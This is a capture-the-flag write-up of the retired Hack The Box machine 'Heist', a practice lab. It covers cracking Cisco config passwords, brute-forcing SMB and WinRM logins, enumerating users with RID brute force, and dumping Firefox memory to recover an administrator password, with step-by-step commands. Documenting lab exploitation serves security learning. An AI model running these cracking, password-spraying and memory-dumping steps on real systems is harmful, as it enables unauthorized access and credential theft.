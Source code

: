 # Heist

This is the write-up for the box Heist that got retired at the 30th November 2019.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.149    heist.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/heist.nmap 10.10.10.149
```

```markdown
PORT    STATE SERVICE       VERSION    
80/tcp  open  http          Microsoft IIS httpd 10.0       
| http-cookie-flags:          
|   /:                                                                                            
|     PHPSESSID:                             
|_      httponly flag not set                                                                     
| http-methods:                              
|_  Potentially risky methods: TRACE             
|_http-server-header: Microsoft-IIS/10.0     
| http-title: Support Login Page                                                                  
|_Requested resource was login.php           
135/tcp open  msrpc         Microsoft Windows RPC   
445/tcp open  microsoft-ds?                  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page forwards to _/login.php_ and shows a login page to a web application:

![Login page](https://kyuu-ji.github.io/htb-write-up/heist/heist_web-1.png)

When trying out an username, it says to enter an email address.
The button _"Login as guest"_ forwards to _/issues.php_ which looks like a help desk page with a service ticket and an attachment:

![Service ticket](https://kyuu-ji.github.io/htb-write-up/heist/heist_web-2.png)

The username _hazard_ could be a potential username.
The attachment forwards to _/attachments/config.txt_ and looks like a snippet of a **Cisco configuration** with the following interesting information:

```markdown
version 12.2
service password-encryption

security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91

username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

(...)
```

Cisco devices have [different password type levels](https://learningnetwork.cisco.com/s/article/cisco-routers-password-types) and in this case the _password level 7_ refers to a string that is encrypted with a **Vigenere Cipher** that is not secure anymore.

It can be cracked with the [Cisco Type 7 Password Decrypter](https://github.com/theevilbit/ciscot7) on GitHub:
```markdown
python ciscot7.py --decrypt -p 0242114B0E143F015F5D1E161713

python ciscot7.py --decrypt -p 02375012182C1A1D751618034F36415408
```

1. Password: _$uperP@ssword_
2. Password: _Q4)sJu\Y8qz*A3?d_

There is also a _secret level 5_ password for _enabling the admin privileges_, which is a Cisco-specific kind of MD5crypt, that can be cracked with **Hashcat**:
```markdown
hashcat -m 500 heist_cisco.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is: _stealth1agent_

Now we got different passwords and usernames and use this information to attack the server with a **Password Brute-Force attack**.

## Checking SMB (Port 445)

To brute-force the SMB shares, I will use the tool [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
```markdown
crackmapexec smb -u users.txt -p passwords.txt --shares 10.10.10.149
```

The same is possible with **Metasploit**:
```markdown
use auxiliary/scanner/smb/smb_login

setg USER_FILE users.txt
setg PASS_FILE passwords.txt
setg RHOSTS 10.10.10.149

run
```

The username _hazard_ with the password _stealth1agent_ is a valid username but is unprivileged to connect to the shares.
To move laterally with the credentials, it could be possible to use **Windows Remoting (WinRM)** that listens normally on port 5985 and 5986.

Testing if this is possible with a module in **Metasploit** with the same options as before:
```markdown
use auxiliary/scanner/winrm/winrm_login
```

Unfortunately it is unsuccessful.

### Enumerating Usernames

With credentials, it is possible to enumerate the box more with scripts from the **Impacket Framework**.
An enumeration method called **RID / SID Brute-Force** will display the users on the box:
```markdown
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py 'hazard:stealth1agent'@10.10.10.149
```
```markdown
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

It gives us three more usernames to put into the _users.txt_ file.

This works by using **RPC calls** which can also be manually accessed with **rpcclient**:
```markdown
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```

Looking up names and SIDs of users:
```markdown
lookupnames administrator

S-1-5-21-4254423774-1266059056-3197185112-500
```

Looking up the usernames of the next users by changing the last digits:
```markdown
lookupsids S-1-5-21-4254423774-1266059056-3197185112-501
lookupsids S-1-5-21-4254423774-1266059056-3197185112-502
lookupsids S-1-5-21-4254423774-1266059056-3197185112-503
(...)
```

And that is how other usernames can be brute-forced.

After putting the new usernames into the _users.txt_ and running the _use auxiliary/scanner/winrm/winrm_login_ again, it shows that the user _chase_ with the password _Q4)sJu\Y8qz*A3?d_ are valid credentials.

To connect via WinRM, I will use the tool [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):
```markdown
ruby evil-winrm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
```

This starts a shell on the box as _chase_.

## Privilege Escalation

Lets search through all files of _chase_ by going to the home folder in _C:\Users\Chase_ and display files and sub-directories recursively:
```markdown
gci -recurse . | select fullname
```

There is nothing interesting in there.
After searching for installed programs and running processes, it seems that **Firefox** is installed and can be found in the running processes:
```markdown
dir "C:\Program Files"

Get-Process
```
```markdown
PID     name
320     firefox
6408    firefox
6624    firefox
6812    firefox         
6936    firefox
```

The contents of the process can be dumped with **Sysinternals tool procdump** that has to be uploaded first and **Evil-WinRM** has an uploading function by default:
```markdown
upload procdump64.exe
```

The contents can be dumped with the corresponding PID of the process:
```markdown
procdump64.exe -ma 320
```

It creates a dump file that can be downloaded for analysis:
```markdown
download firefox.exe_201026_011809.dmp
```

Searching the dumpfile for passwords:
```markdown
strings firefox.exe_201026_011809.dmp | grep password | less
```

At the top is a password for the web interface from the beginning:
> 4dD!5}x/re8]FBuZ

Lets put _administrator_ into _users.txt_ and this new password into _passwords.txt_ and try another password spraying attempt with the module _auxiliary/scanner/smb/smb_login_:
```markdown
use auxiliary/scanner/winrm/winrm_login
```

The credentials for _administrator_ with the new found password _4dD!5}x/re8]FBuZ_ works and we can try to connect to the box via **Psexec**:
```markdown
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.149
```

After putting in the password, it starts a shell session as _NT AUTHORITY\SYSTEM_!
